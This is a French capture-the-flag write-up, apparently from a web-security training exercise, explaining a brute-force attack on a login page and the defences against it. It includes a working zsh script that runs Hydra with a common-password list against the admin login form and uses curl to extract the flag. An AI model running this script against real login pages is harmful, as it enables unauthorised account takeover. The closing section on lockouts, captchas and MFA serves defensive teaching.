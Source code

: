 # Faille de brute force

## Qu'est-ce qu'une faille de brute force ?

Une faille de brute force se produit lorsqu'un attaquant tente systématiquement toutes les combinaisons possibles d'identifiants (ou mots de passe) pour accéder à un système sécurisé. Il s'agit d'une méthode très simple, mais potentiellement efficace, qui repose sur le fait de tester un grand nombre de mots de passe ou de clés jusqu'à ce que l'attaquant trouve la bonne combinaison. Cette méthode peut être particulièrement efficace si le mot de passe est simple, commun ou facilement devinable.

Les outils d'attaque par force brute automatisent ce processus, permettant à l'attaquant de tester des milliers, voire des millions, de combinaisons en très peu de temps.

## Comment j'ai exploité cette faille ?

J'ai utilisé un script pour réaliser une attaque par force brute sur un serveur web, en combinant l'outil **Hydra** pour automatiser la tentative de connexion, et l'outil **Curl** pour vérifier la réponse du serveur. Voici le script que j'ai utilisé :

```bash
#!/bin/zsh

echo "Script de brutforce\n\nDonne l'IP stp :"

read  IP_DARKLY

if [ -z $IP_DARKLY ]; then
    echo "Donne l'IP j'ai dit !"
    exit 1
fi

# Exécution de Hydra pour essayer différents mots de passe
hydra -l admin -P 10000-most-common-passwords.txt -F -V "$IP_DARKLY" http-get-form '/index.php:page=signin&username=^USER^&password=^PASS^&Login=Login:F=images/WrongAnswer.gif'

echo "\n\nDonne le mot de passe qu'on test ca :"

read PASSWORD

# Utilisation de curl pour vérifier si le mot de passe est correct et récupérer le flag
curl "http://$IP_DARKLY/index.php?page=signin&username=admin&password=$PASSWORD&Login=Login#" | grep flag | awk -F': | <' '{print "\nThe flag => "$2}'
```

### Explication du Script :

1. **Hydra** : Utilisé pour essayer une liste de 10 000 mots de passe communs afin de casser le mot de passe de l'utilisateur "admin" sur la page de connexion du serveur.
2. **Curl** : Après avoir récupéré le mot de passe, j'ai utilisé `curl` pour envoyer une requête HTTP au serveur avec le mot de passe trouvé et rechercher un **flag** dans la réponse de la page.
3. **awk et grep** : Ces outils permettent d'extraire le flag trouvé sur la page si le mot de passe est correct.

## Solution pour contrer les attaques par force brute

### 1. **Randomiser le délai de réponse**

L'une des solutions les plus efficaces contre une attaque par force brute est d'ajouter un **délai de réponse** aléatoire. Actuellement, le serveur que j'attaque met un délai de 2 secondes si le mot de passe est incorrect. Un attaquant peut s'attendre à ce délai et ajuster son attaque en conséquence.

Pour contrer cela, on peut introduire une variabilité dans le délai de réponse (par exemple entre 1 et 5 secondes), rendant beaucoup plus difficile pour un attaquant d'estimer la durée exacte et donc de mener une attaque efficace. Cela introduit une incertitude dans le processus d'attaque, ralentissant potentiellement les tentatives de force brute.

### 2. **Bloquer ou limiter les tentatives de connexion**

- **Verrouillage temporaire** : Après un certain nombre de tentatives de connexion échouées, verrouiller temporairement le compte pour une durée spécifique (par exemple 15 minutes).
- **Captchas** : Demander à l'utilisateur de résoudre un captcha après un nombre défini de tentatives échouées peut également décourager les attaques automatisées.

### 3. **Utilisation de mots de passe forts**

Une bonne défense contre les attaques de force brute est d'encourager (ou d'imposer) l'utilisation de mots de passe longs et complexes. Cela augmente considérablement le temps nécessaire pour que l'attaquant devine le mot de passe, même en utilisant des outils automatisés.

### 4. **Utilisation de l'authentification multi-facteurs (MFA)**

L'authentification multi-facteurs est une méthode très efficace pour empêcher les attaques de force brute. Même si un attaquant parvient à casser le mot de passe, il lui faudra également un second facteur (comme un code envoyé par SMS ou une application d'authentification), ce qui rend l'attaque beaucoup plus difficile.

---

Avec ces mesures en place, les attaques par force brute deviennent beaucoup plus difficiles à exécuter, protégeant ainsi les utilisateurs et les serveurs des attaques malveillantes.